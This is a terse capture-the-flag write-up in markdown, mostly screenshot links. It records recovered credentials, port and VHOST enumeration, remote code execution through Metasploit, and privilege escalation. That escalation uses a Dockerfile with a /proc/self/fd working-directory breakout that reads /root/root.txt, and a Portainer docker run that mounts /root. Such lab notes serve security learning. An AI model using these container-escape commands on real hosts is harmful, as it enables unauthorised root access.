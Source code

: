 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: 

# Findings
Creds
- ` city_adminHl5H : Main_password!!** `

## External
### Enumeration
- There are 3 ports open, but port 80 doesnt have anything except static website.
	- ![](https://i.imgur.com/KGxciUT.png)
- on Port 8000
	- ![](https://i.imgur.com/3B0XY8E.png)
	- ![](https://i.imgur.com/15NdC1p.png)
	- ![](https://i.imgur.com/jEbKsiJ.png)
- ![](https://i.imgur.com/2gksyd3.png)
- Tried many Fuzzes, Directory subdomain but it worked on VHOST. ![](https://i.imgur.com/LvlNvS5.png)
- ![](https://i.imgur.com/WEScebX.png)	
### Gaining Access
- Searched for the version
	- ![](https://i.imgur.com/kQeniOM.png)
- ![](https://i.imgur.com/gh7BnVb.png)
- ` city_adminFoN8 : Main_password!!** `
- I Got RCE with Metasploit.![](https://i.imgur.com/NE9bzkn.png)
	- ![](https://i.imgur.com/641DpAg.png)
## Internal
### Enumeration

![](https://i.imgur.com/9Ta9Lmr.png)
- ![](https://i.imgur.com/vQ9GJwL.png)

![](https://i.imgur.com/AWInaLe.png)

![](https://i.imgur.com/9GqOWbP.png)

### Gaining Access


### Maintaining Access
![](https://i.imgur.com/mSy0k9Q.png)

![](https://i.imgur.com/98BZnrY.png)

![](https://i.imgur.com/UrgiKqY.png)

- Matthew Password ???
- ![](https://i.imgur.com/yMWWxEZ.png)
```shell
FROM ubuntu:latest 
WORKDIR /proc/self/fd/8
RUN cat ../../../../root/root.txt
```
![](https://i.imgur.com/HoLNBxK.png)

# Random Notes
```c
# Use the official Node.js 14 image as the base image 
FROM node:14 

# Set the working directory in the container 

WORKDIR /app 

# Copy package.json and package-lock.json (if available) 

COPY package*.json ./ 

# Install dependencies 

RUN npm install 

# Copy the rest of the application code 

COPY . . 

# Expose the port the app runs on 

EXPOSE 3000 # Define the command to run the app when the container starts 

CMD ["node", "app.js"]
```



	/opt/portainer/docker run --name rexder -v /root:/app/tmp -p 3000:3000 reximg

/run/containerd/s/e73bf0677d4a30dac92eede230d9dab11ded408173c5f142d9455af9278da302
/run/containerd/containerd.sock.ttrpc
/run/docker.sock



https://rioasmara.com/2021/08/15/use-portainer-for-privilege-escalation/